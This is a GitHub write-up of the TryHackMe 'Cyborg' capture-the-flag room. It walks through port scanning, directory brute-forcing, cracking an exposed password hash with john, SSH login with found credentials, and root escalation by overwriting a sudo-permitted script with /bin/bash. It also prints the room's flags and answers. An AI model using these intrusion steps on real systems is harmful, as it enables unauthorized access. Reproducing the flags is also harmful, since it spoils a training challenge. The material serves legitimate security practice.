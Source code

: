 <!-- CTF ROOM  -->
# Cyborg - TryHackMe
<!-- Author name  -->
> Keertan Singh, 19 July,2022
 <!-- image  -->
 #
 ![alt Cyborg](https://github.com/keerat-1/Tryhackme-Project/blob/main/Cyborg/images/5493020.jpg?raw=true)
#
## Notes:
```
twitter: fieldraccoon
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn. = squidward
alex:S3cretP@s3
```
#
## Answer the questions below
<!-- Task 1  -->
#
###  Task 1 - Deploy the machine
- Deploy the machine
```
No answer needed
```
<!-- Task 2  -->
# 
### Task 2 - Compromise the system
- Scan the machine, how many ports are open?
```
2
```
- What service is running on port 22?
```
ssh
```
- What service is running on port 80?
```
http
```
- What is the user.txt flag?
```
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```
- What is the root.txt flag?
```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
# 
## Step by Step 
- Step 1 - Nmap scan \
You will get all your first 3 question. 
```
nmap -sC -sV -oG initial <your machine ip>
```
- Step - 2 \
Find all directories: 
```
gobuster dir -u http://10.10.66.102/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
you will get 2 directory: "/etc" and "/admin" . your will find password in hash form at : 
```
http://10.10.66.102/etc/squid/passwd
```
Password in hash form:
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```
Save hash in file [hash.txt]. \
Decrypt it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```
Password is : "squidward"
- Step - 3 \
Download archieve.tar from:
```
http://10.10.66.102/admin/archive.tar
```
Make new directory for alex's backup:
```
mkdir unpacked
```
Now Mount Alex backup with borg:
use password key:
```
borg mount home/field/dev/final_archive unpacked
```
- Step - 4 \
Go to :
```
cd unpacked/music_archive/home/alex/Documents
```
Now read note.txt file, you will find alex credenitial:
```
alex:S3cretP@s3
```
Login with ssh:
```
ssh alex@10.10.66.102
```
Read user.txt file:
```
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
``` 
- Step - 5 - Privilege Escalation  \
check sudo permissions:
```
sudo -l
```
Everyone have permission as root to run "/etc/mp3backups/backup.sh" \
Edit and run this file :
```
chmod 777 /etc/mp3backups/backup.sh
echo "/bin/bash" > /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh
```
whoooo!! you are root user now. \
Read root.txt.
```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
#
